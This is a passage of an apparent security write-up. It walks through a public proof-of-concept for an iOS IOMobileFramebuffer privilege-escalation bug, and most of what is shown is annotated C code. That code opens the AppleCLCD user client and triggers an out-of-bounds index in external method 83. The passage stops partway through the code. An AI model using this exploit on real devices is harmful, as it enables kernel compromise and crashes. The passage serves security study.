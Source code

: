 -   **`s_create_port_from_surface` (method 35)** if you need the inverse.\
    Saar calls out these exact methods as the next step. **The PoC is proving you can "manufacture" a legitimate IOSurface handle from an OOB slot.** [Saaramar](https://saaramar.github.io/IOMobileFrameBuffer_LPE_POC/?utm_source=chatgpt.com)

This [PoC was taken from here](https://github.com/saaramar/IOMobileFrameBuffer_LPE_POC/blob/main/poc/exploit.c) and added some comments to explain the steps:

```c
#include "exploit.h"

// Open the AppleCLCD (aka IOMFB) user client so we can call external methods.
io_connect_t get_appleclcd_uc(void) {
    kern_return_t ret;
    io_connect_t shared_user_client_conn = MACH_PORT_NULL;
    int type = 2; // **UserClient type**: variant that exposes selector 83 on affected builds.  ⭐
                  // (AppleCLCD and IOMobileFramebuffer share the same external methods table.)

    // Find the **AppleCLCD** service in the IORegistry.
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                       IOServiceMatching("AppleCLCD"));
    if(service == MACH_PORT_NULL) {
        printf("[-] failed to open service\n");
        return MACH_PORT_NULL;
    }
    printf("[*] AppleCLCD service: 0x%x\n", service);

    // Open a user client connection to AppleCLCD with the chosen **type**.
    ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
    if(ret != KERN_SUCCESS) {
        printf("[-] failed to open userclient: %s\n", mach_error_string(ret));
        return MACH_PORT_NULL;
    }
    printf("[*] AppleCLCD userclient: 0x%x\n", shared_user_client_conn);
    return shared_user_client_conn;
}

// Trigger the OOB index path of external method #83.
// The 'offset' you pass is in bytes; dividing by 8 converts it to the
// index of an 8-byte pointer slot in the internal table at (this + 0xA58).
uint64_t trigger_oob(uint64_t offset) {
    kern_return_t ret;

    // The method takes a single 32-bit scalar that it uses as an index.
    uint64_t scalars[1] = { 0x0 };
    scalars[0] = offset / 8;   // **index = byteOffset / sizeof(void*)**.  ⭐

    // #83 returns one scalar. In this flow it will be the Mach port name
    // (a u32 handle in our task), not a kernel pointer.
    uint64_t output_scalars[1] = { 0 };
    uint32_t output_scalars_size = 1;

    io_connect_t appleclcd_uc = get_appleclcd_uc();
    if (appleclcd_uc == MACH_PORT_NULL) {
        return 0;
    }

    // Call external method 83. Internally:
    //   ptr = *(this + 0xA58 + index*8);         // OOB pointer fetch
    //   IOSurfaceRoot::copyPortNameForSurfaceInTask(task, (IOSurface*)ptr, &out)
    // which creates a send right for that object and writes its port name
    // into output_scalars[0]. If ptr is junk → deref/panic (DoS).
    ret = IOConnectCallMethod(appleclcd_uc, 83,
                                    scalars, 1,
                                    NULL, 0,
```
